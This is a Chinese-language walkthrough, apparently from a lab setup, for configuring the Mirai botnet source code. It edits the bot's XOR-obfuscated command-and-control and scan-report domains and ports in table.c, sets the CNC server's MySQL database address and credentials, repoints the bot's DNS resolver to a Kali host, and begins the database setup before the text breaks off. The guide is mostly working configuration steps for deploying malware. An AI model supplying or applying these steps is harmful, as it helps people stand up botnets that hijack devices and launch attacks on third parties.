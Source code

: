 #### 修改 Bot 配置 (mirai/bot/table.c)

`vim ../bot/table.c`

找到 TABLE_CNC_DOMAIN 和 TABLE_SCAN_CB_DOMAIN
将 add_entry 函数的第二个参数（字符串）替换为上一步生成的 cnc.test.me 和 report.test.me 的 XOR 结果。确保反斜杠 \ 和 x 都保留，同时修改长度。

```md
    add_entry(TABLE_CNC_DOMAIN, "\\x41\\x4C\\x41\\x0C\\x56\\x47\\x51\\x56\\x0C\\x4F\\x47\\x22", 12);
    add_entry(TABLE_CNC_PORT, "\\x22\\x35", 2);   // 23

    add_entry(TABLE_SCAN_CB_DOMAIN, "\\x50\\x47\\x52\\x4D\\x50\\x56\\x0C\\x56\\x47\\x51\\x56\\x0C\\x4F\\x47\\x22", 15);
    add_entry(TABLE_SCAN_CB_PORT, "\\x99\\xC7", 2);         // 48101

 ```

#### 修改 CNC 配置 (mirai/cnc/main.go)

`vim ../cnc/main.go`

修改 DatabaseAddr 为远程数据库 IP 和端口
修改 DatabaseUser 和 DatabasePass 为远程数据库上创建并授权的 Mirai 用户凭据。
DatabaseTable 应为 mirai

```go
        const DatabaseAddr string   = "REMOTE_DB_IP:3306" // 修改为远程数据库 IP:端口
        const DatabaseUser string   = "mirai-user"        // 修改为远程数据库用户名
        const DatabasePass string   = "mirai-pass"        // 修改为远程数据库密码
        const DatabaseTable string  = "mirai"             // 数据库名，应与 db.sql 创建的一致
```

#### 修改 Bot DNS 解析器 (mirai/bot/resolv.c)

Bot 需要知道向哪个 DNS 服务器查询 CNC 和 Report 域名

`vim ../bot/resolv.c`

找到包含 INET_ADDR 的行 (约第 84 行)。
将其 IP 地址修改为 kali 服务器（也就是 DNS 服务器）的 IP 地址 (192.168.59.148)

```c
        // addr.sin_addr.s_addr = INET_ADDR(8,8,8,8); // 原来的 Google DNS
        addr.sin_addr.s_addr = INET_ADDR(192, 168, 59, 148);
```

### mysql 数据库配置

本来准备使用远程的 sql 数据库，使用 sqlpub 的免费服务，使用初始化 python 脚本进行初始化

但是 sqlhub 必须使用 ssl，所以最后换回使用本机的 mysql 数据库

配置数据库文件，修改 db.sql 文件

```bash
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# cd ../../scripts/
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim db.sql

CREATE DATABASE mirai;
use mirai;
CREATE TABLE `history` (
```
